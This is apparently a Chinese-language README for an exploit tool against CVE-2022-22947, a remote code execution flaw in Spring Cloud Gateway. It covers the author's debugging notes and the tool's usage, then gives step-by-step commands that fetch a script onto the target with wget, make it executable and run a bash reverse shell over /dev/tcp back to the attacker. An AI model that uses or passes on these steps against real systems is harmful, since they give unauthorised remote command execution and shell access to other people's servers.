 # 工具介绍

嘛。天天在外面跑项目，终于抽点时间研究一下这个漏洞的poc了。

**这东西吧有点问题，如果--输错命令--呀或者输入的--命令不存在--再或者你输入的命令--没有返回结果--的，就会返回上一个命令的结果。嘛没办法。不是exp的问题。**

就随便写了一个。辣鸡。大佬看着辣眼睛请绕过。

写这个exp的时候碰到了很多的问题把。

1. 网上的有个poc的那个是这样写。多了一个new String[]。然后发现不能执行带有空格的命令，想了好些办法，比如空格绕过$IFS呀啥的都不行。然后看到另一个poc可以。想不通在哪找了好多地方的问题。还以为是我写错了。最后仔细对比才发现。使用的地方差了一点点。

![image-20220304141150921](images/image-20220304141150921.png)

2. 这个rui的http里面的东西虽然可以瞎写好些。但是如果没写http:// 就不行。一开始我写漏了。就写了一个127.0.0.1结果失败了。

![image-20220304141538271](images/image-20220304141538271.png)

# 工具的使用

使用:

```
python CVE-2022-22947.py 目标 "执行的命令"
```

![image-20220304140157102](images/image-20220304140157102.png)

![image-20220304140213492](images/image-20220304140213492.png)


反弹直接执行反弹shell的命令好像是不行的。

我是先新建了一个shell.sh，然后在文件中写入反弹shell的命令。
```
bash -i >& /dev/tcp/ip/prot 0>&1
```
然后在shell.sh的目录下，用python开启一个http服务。
```
python3 -m http.server 8080
```
再然后用wget下载一个shell.sh。
```
python CVE-2022-22947.py 目标 "wget http://xxxxx:8080/shell.sh"
```
再再然后给一个文件的执行权限。
```
python CVE-2022-22947.py 目标 "chmod +x shell.sh"
```
最后执行shell.sh文件。
```
python CVE-2022-22947.py 目标 "bash shell.sh"
```
这样就把shell反弹出去了。
